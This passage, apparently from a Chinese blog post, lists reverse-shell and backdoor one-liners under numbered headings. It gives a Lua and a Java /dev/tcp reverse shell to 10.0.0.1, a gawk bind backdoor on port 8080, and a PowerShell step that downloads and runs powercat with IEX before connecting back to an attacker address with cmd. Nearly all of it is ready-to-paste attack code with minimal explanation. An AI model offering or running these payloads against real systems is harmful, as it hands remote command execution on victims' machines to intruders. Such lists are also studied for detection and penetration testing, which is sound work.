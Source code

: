 ```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 7. java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 8. gawk

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

### 9. powershell反弹shell

powershell反弹shell本质上是一些多功能代码集合，通过调用windows提供的api接口实现网络通信和指令解析执行的功能。

#### 1）powercat反弹shell

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666
# 或者使用powercat监听
powercat -l -p 6666

# 目标机反弹cmd shell：
powershell IEX (New-Object System.Net.Webclient).DownloadString
('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 192.168.159.134 -p 6666 -e cmd
```

